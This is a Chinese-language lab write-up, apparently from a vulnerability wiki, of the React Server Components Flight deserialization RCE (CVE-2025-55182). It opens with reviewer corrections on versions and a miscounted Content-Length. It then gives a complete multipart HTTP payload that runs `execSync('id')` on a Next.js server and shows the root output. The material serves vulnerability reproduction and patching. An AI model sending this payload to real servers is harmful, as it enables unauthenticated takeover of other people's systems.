


## 核对与使用边界

- 明确更正：正文列受影响 react-server-dom-* 为 19.0.0、19.1.0、19.1.1、19.2.0，而 19.0.1、19.1.2、19.2.1 出现在安全版本栏，不能把后者作为影响版本。
- 原 Content-Length 141 明显不足以覆盖所贴 multipart 正文，手写请求不能按该长度证明成功。示例依 Node.js API，其他 RSC 运行时不能自动套用；redirect 回显与实际命令输出需独立证据。

- 明确更正：原 version 字段取自安全/修复版本清单，不能当受影响版本。已移入 version_notes 保留来源值；应逐分支核对原公告，不能把修复版反列为漏洞版。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：正文影响19.0.0/19.1.0/19.1.1/19.2.0，元数据却取安全版本19.0.1/19.1.2/19.2.1；实验Next15.5.6

代码与实验材料：完整Flight multipart及redirect回显，Content-Length141远小于正文；Node专属payload不是任意RSC运行时通用

来源证据范围：React和Next官方博客、原PoC和研究，较好

- **事实待核（1）**：版本元数据将修复版本当影响版本；依据：version:react-server-dom-parcel19.0.1,19.1.2,19.2.1来自安全版本区。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（2）**：HTTP Content-Length错误；依据：141但正文包含多个multipart和长JSON，需重算或交客户端生成。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（3）**：修复与运行时边界需精确；依据：升级最新过泛，需各RSC/Next分支映射；process.mainModule依Node支持，客户端React不受影响。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# React Server Components Flight 协议反序列化代码执行 CVE-2025-55182

## 漏洞描述

React Server Components (RSC) 是 React 的一项功能，允许开发者在服务器上渲染组件并将结果发送给客户端。

React Server Components 中存在一个未授权的远程代码执行漏洞。攻击者可以向任何 Server Function 端点发送精心构造的恶意 HTTP 请求，当 React 对该请求进行反序列化时，即可在服务器上实现远程代码执行。该漏洞影响 `react-server-dom-webpack`、`react-server-dom-parcel` 和 `react-server-dom-turbopack` 的 19.0 到 19.2.0 版本，以及依赖这些包的框架（如 Next.js）。

参考链接：

- https://react.dev/blog/2025/12/03/critical-security-vulnerability-in-react-server-components
- https://nextjs.org/blog/CVE-2025-66478
- https://github.com/ejpir/CVE-2025-55182-research
- https://cloud.projectdiscovery.io/library/CVE-2025-55182
- https://github.com/lachlan2k/React2Shell-CVE-2025-55182-original-poc

## 漏洞影响

受影响版本：

```
react-server-dom-parcel 19.0, 19.1.0, 19.1.1, 19.2.0
react-server-dom-turbopack 19.0, 19.1.0, 19.1.1, 19.2.0
react-server-dom-webpack 19.0, 19.1.0, 19.1.1, 19.2.0
```

安全版本：

```
react-server-dom-parcel 19.0.1, 19.1.2, 19.2.1
react-server-dom-turbopack 19.0.1, 19.1.2, 19.2.1
react-server-dom-webpack 19.0.1, 19.1.2, 19.2.1
```

## 环境搭建

虽然这个漏洞是出现于 React Server Components 中，但 Next.js 作为最流行的 React 框架，在 Next.js 15 版本后已经全面支持 React Server Components。因此，我们可以使用 Next.js 来复现漏洞。

Vulhub 执行如下命令启动一个存在漏洞的 Next.js 15.5.6 服务器：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:3000` 即可看到应用程序。




## 漏洞复现

该漏洞是由于 React Server Components 在解码 Payload 时的缺陷导致的。通过在序列化数据中注入特定字段，攻击者可以遍历原型链并执行任意代码。发送如下数据包，即可执行命令 `id`：

```
POST / HTTP/1.1
Host: your-ip:3000
Next-Action: x
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoQY2t4UYLMhGH8AS
Content-Length: 141

------WebKitFormBoundaryoQY2t4UYLMhGH8AS
Content-Disposition: form-data; name="0"

{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\":\"$B1337\"}",
  "_response": {
    "_prefix": "var res=process.mainModule.require('child_process').execSync('id').toString().trim();;throw Object.assign(new Error('NEXT_REDIRECT'),{digest: `NEXT_REDIRECT;push;/login?a=${res};307;`});",
    "_chunks": "$Q2",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}
------WebKitFormBoundaryoQY2t4UYLMhGH8AS
Content-Disposition: form-data; name="1"

"$@0"
------WebKitFormBoundaryoQY2t4UYLMhGH8AS
Content-Disposition: form-data; name="2"

[]
------WebKitFormBoundaryoQY2t4UYLMhGH8AS--
```

发送请求后，在响应头的 `x-action-redirect` 字段中可以看到 `id` 命令的执行结果：

```
x-action-redirect: /login?a=uid=0(root) gid=0(root) groups=0(root);push
```




## 漏洞修复

升级至最新版本。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
